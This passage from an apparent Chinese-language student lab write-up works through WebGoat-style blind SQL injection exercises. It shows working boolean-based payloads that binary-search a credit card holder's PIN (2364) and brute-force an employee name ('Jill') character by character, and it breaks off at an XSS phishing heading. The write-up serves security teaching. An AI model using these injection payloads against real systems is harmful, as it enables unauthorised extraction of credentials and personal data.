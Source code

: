 ```sql
# 判断 pin 的长度，这里确定 pin 在 0～10000以内
101 and (length(select pin from pins where cc_number = '1111222233334444') = 4);
# 二分查询
101 and ((select pin from pins where cc_number = '1111222233334444') > 5000); # false
101 and ((select pin from pins where cc_number = '1111222233334444') > 2500); # false
101 and ((select pin from pins where cc_number = '1111222233334444') > 1250); # true
101 and ((select pin from pins where cc_number = '1111222233334444') > 1875); # true
101 and ((select pin from pins where cc_number = '1111222233334444') > 2187); # false
101 and ((select pin from pins where cc_number = '1111222233334444') > 2343); # true
101 and ((select pin from pins where cc_number = '1111222233334444') > 2421); # false
101 and ((select pin from pins where cc_number = '1111222233334444') > 2382); # false
101 and ((select pin from pins where cc_number = '1111222233334444') > 2362); # true
101 and ((select pin from pins where cc_number = '1111222233334444') > 2372); # false
101 and ((select pin from pins where cc_number = '1111222233334444') > 2367); # false
101 and ((select pin from pins where cc_number = '1111222233334444') > 2364); # false
101 and ((select pin from pins where cc_number = '1111222233334444') > 2363); # true
# 这里可以判断出结果就是2364
```

最后查询到结果为 2364

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/l138Xs.png)

### Step 8 Blind String SQL Injection

这一题要求我们找到数据库里面 cc_number 是**4321432143214321**的员工的名字，这里模仿上文的思路，使用以下语句进行查询,由于字母作为查询空间并不大，所以这里使用穷举法。

```sql
# 先确定长度
101 and (length(select name from pins where cc_number='4321432143214321') = 4); # true
# 暴力遍历
101 and (left((select name from pins where cc_number='4321432143214321'),1) = 'A'); # false
......
101 and (left((select name from pins where cc_number='4321432143214321'),1) = 'J'); # true
......
101 and (left((select name from pins where cc_number='4321432143214321'),2) = 'Ji'); # true
......
101 and (left((select name from pins where cc_number='4321432143214321'),3) = 'Jil'); # true
......
101 and (left((select name from pins where cc_number='4321432143214321'),4) = 'Jill'); # true
```

最终查询到的结果是`Jill`

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/pH7hYW.png)

注入攻击的部分到这里就结束了，其中 SQL 注入的 Stage2、4 部分询问过助教之后知道了是不需要做的，所以这里没有显示完成。

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/mhCxqR.png)

### 2. Cross-Site Scripting (XSS)

### Step 1 Phishing with XSS
